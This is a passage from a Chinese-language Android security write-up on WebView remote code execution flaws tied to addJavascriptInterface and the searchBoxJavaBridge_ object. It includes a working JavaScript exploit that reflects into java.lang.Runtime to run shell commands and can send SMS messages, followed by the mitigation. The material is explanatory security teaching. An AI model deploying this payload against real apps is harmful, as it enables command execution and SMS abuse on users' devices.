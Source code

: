 ##### 5.4 远程代码执行漏洞【一】

参考[CVE-2012-6636](https://link.jianshu.com/?t=https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-6636)和[CVE-2013-4710](https://link.jianshu.com/?t=https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-4710)

WebView通过`addJavascriptInterface()`方法进行Native类和JS对象之间的映射，此时JS可以通过这个关联的对象访问此对象的所有方法，甚至通过反射机制调用系统类，从而执行任意代码

当存在此漏洞时，攻击者可以构造恶意的JS代码并诱骗用户使用扫描二维码的方式打开外部页面执行攻击脚本，攻击代码首先遍历window对象，找到包含`getClass()`方法的对象，即与Native类建立关联的对象，获取当前类后使用`forName()`方法反射加载系统类`java.lang.Runtime`并执行本地命令

```javascript
function execute(args) {
  for(var obj in window) {
    if("getClass" in window[obj]) {
      alert(obj);
      return window[obj].getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).execute(args);
      // 或者调用 SmsManager 发送短信
      var smsManager = window[obj].getClass().forName("android.telephony.SmsManager").getMethod("getDefault", null).invoke(null, null);
      smsManager.sendTextMessage("10086", null, "this is a message from JS", null, null);
    }
  }
}

function getContents(inputStream) {
  var i = 1;
  var result = "" + i;  
  var len = inputStream.read();
  while(len != -1) {
    var data = String.fromCharCode(len);
    result += data;
    result += "\n"
    len = inputStream.read();
  }
  i = i + 1; 
  return result;
}

var res = execute(["/system/bin/sh", "-c", "ls -al /sdcard"]); 
alert(res);
document.write(getContents(res.getInputStream()));
```

Google规定，Android 4.2（API 17）及之后的版本必须使用`@JavascriptInterface`注解被调用的函数来避免此漏洞

##### 5.5 远程代码执行漏洞【二】

参考[CVE-2014-1939](https://link.jianshu.com/?t=https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-1939)

Android 4.4以前的版本，使用webkit内核，其默认使用`addJavascriptInterface`接口创建`SearchBoxImpl`类对象（位于`java/android/webkit/BrowserFrame.java`），即暴露了`searchBoxJavaBridge_`对象，导致攻击者可以利用该漏洞执行远程代码攻击
